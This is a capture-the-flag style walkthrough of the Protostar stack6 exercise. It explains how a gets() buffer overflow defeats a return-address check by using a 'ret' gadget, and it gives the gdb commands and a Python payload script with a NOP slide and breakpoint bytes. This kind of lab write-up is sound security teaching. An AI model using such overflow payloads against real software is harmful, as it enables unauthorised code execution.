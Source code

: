 #### Procedure:

The aim is to get a root shell. Similar to the previous problem, we need to overwrite the return pointer. But this time, the return pointer should not be in 0xbf000000 address space (basically stack). As suggested, we can set the return pointer to /bin/sh in libc. We can also set it to itsef so that it fails the 'if' condition and doesn't exit. Then we can use shell code

###### Vulnerability:

`gets()` is vulnerable function.


###### Disassembly:

Lets disassemble the main function
```
gdb ./stack6
(gdb) set disassembly-flavor intel
(gdb) disassemble main
(gdb) disassemble getpath
```

![disassembly]({{site.url}}{{site.baseurl}}/images/protostar/stack6/disassemble.png)

The *'_exit'* protects the function *getpath()* from being exploited even though its using vulnerable `gets()` function. 

Lets setup a breakpoint at 'ret' 0x080484f9. Lets also setup a breakpoint at the start of *getpath()* and check the memory map spaces

```
break *0x080484f9
break *getpath
info proc map
r
```

![memorymap]({{site.url}}{{site.baseurl}}/images/protostar/stack6/memorymap.png)

We can see the all the address from 0xbffeb000 to 0xc0000000 are in stack. so we cannot have the return pointer pointing on stack. We can point the return pointer to instruction addresses (0x08048---) and get back onto function execution and bypass the return pointer check. Lets craft an input like stack5 to overwrite the return pointer to itself. The second time ret is executed, we have control of the eip and use it to execute anything on stack.

```
import struct
padding = 'AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVV'
eip = struct.pack("I", 0x080484f9)
eip += struct.pack("I", 0xbffff7d0+30)
nopslide = "\x90"*10
interrupt = "\xCC"*100
print padding+eip+nopslide+interrupt
```

after running the program with this input, we can see that we successfully evaded the 'if' loop and reached the breakpoint at 'ret' twice. 
